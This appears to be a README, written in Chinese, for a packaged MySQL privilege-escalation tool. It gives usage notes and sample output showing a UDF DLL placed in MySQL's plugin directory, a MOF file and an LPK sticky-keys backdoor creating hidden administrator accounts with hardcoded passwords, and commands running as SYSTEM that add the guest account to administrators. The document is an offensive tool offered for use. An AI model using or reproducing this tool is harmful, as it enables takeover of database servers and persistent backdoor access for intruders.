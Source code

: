 # mysql-promoting-privileges
之前写的python打包的

请注意：dll文件只有当服务器是03的时候需要上传
就算是服务器支持外联还是建议把程序传到服务器上运行，因为代码里加了调用os模块创建plugin目录
如果是远程的话 利用NTFS ADS来创建plugin目录，成功的几率比较小
#Usage：
```root.exe host port user pass```
#Response:
```
C:\Users\binghe\Desktop>root.exe 192.168.1.10 3306 root root

 ============================================================================
|                                                                            |
|                BingheSec Mysql Promote Privileges Tool                     |
|                                                                            |
 ============================================================================
Usage as: sec.py host port user pass
Example: sec.py 192.168.1.6 3306 root 123456
Current connection: 192.168.1.10:3306/root/root
Mysql Version is 5.5.40
Mysql Version>5.0 , UDF dll can only dump to plugin dir!
Mysql RootPath : C:/Program Files/phpStudy/MySQL/
UDF DLL PATH : C:/Program Files/phpStudy/MySQL/lib/plugin/BingheSec.dll

UDf will make the user 'guest' active and add to admin with the pass 789456123+abc
The sql of Dumping AddUser And AddToAdmin MOF File has queried OK.
Press shift 5 times then press 1,2 at the same time to start the lpk UI,pass:binghesec
Mof and LPK will add users named BingheSec$/admin$ with password: 789456123+abc
Mof file only fit for windows2003 , please test it byourself!
Command Query Result:
-------------------------------------------------------------------------------

Microsoft Windows [版本 5.2.3790]
nt authority\system
命令成功完成。

命令成功完成。

命令成功完成。

别名 administrators
注释 管理员对计算机/域有不受限制的完全访问权

成员

-------------------------------------------------------------------------------

admin$
Administrator
BingheSec$
Guest
命令成功完成。
```

